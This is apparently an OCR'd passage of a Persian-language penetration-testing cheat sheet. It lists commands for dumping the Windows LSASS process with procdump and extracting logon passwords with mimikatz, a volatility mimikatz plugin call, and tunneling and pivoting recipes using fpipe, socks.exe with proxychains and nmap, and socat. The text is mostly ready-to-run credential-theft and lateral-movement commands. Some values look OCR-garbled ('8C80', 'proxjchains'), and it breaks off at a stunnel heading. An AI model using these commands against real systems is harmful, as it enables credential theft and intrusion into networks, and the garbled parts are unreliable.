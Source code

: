 
## دریافت پروسس lsass و استخراج اطلاعات با mimikatz

```text
procdump.exe -accepteula -64 -ma lsass.exe  lsass.dmp
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords f
```

## استخراج اطلاعات در حافظه با استفاده از افزونه mimikatz در volatility

```text
volatility — plugins=/usr/share/volatility/plugins — profile=Win7SP0x86 -f halomar.dmp mimikatz
````

## تونل 

### Fpipe - دریافت اطلاعات از پورت 1234 و انتقال به پورت 80 2.2.2.2

```text
fpipe.exe -l 1234 -r 80 2.2.2.2
```

### Socks.exe - پویش اینترانت در پروکسی ساکس

```text
On redirector (1.1.1.1):
    socks.exe -i1.1.1.1 -p 8C80

On attacker:
Modify /etc/proxjchains.conf:
Comment out: #proxy_dns
Comment out: #socks4a 127.0.0.1    9050
Add line: socks4    1.1.1.1    8080
Scan through socks proxy:
    proxychains nmap -PN -vv -sT -p 22,135,139,445 2.2.2.2
```

### Socat - دریافت اطلاعات از پورت 1234 و انتقال به پورت 80 2.2.2.2

```text
socat TCP4:LISTEN:1234 TCP4:2.2.2.2:80
```

### ایجاد ssh بدون سرویس ssh

```text
./socat TCP-LISTEN:22,fork,reuseaddr TCP:172.10.10.11:22
```

### Stunnel - ssl encapsulated در تونل nc \(ویندوز & لینوکس\) \[8\]
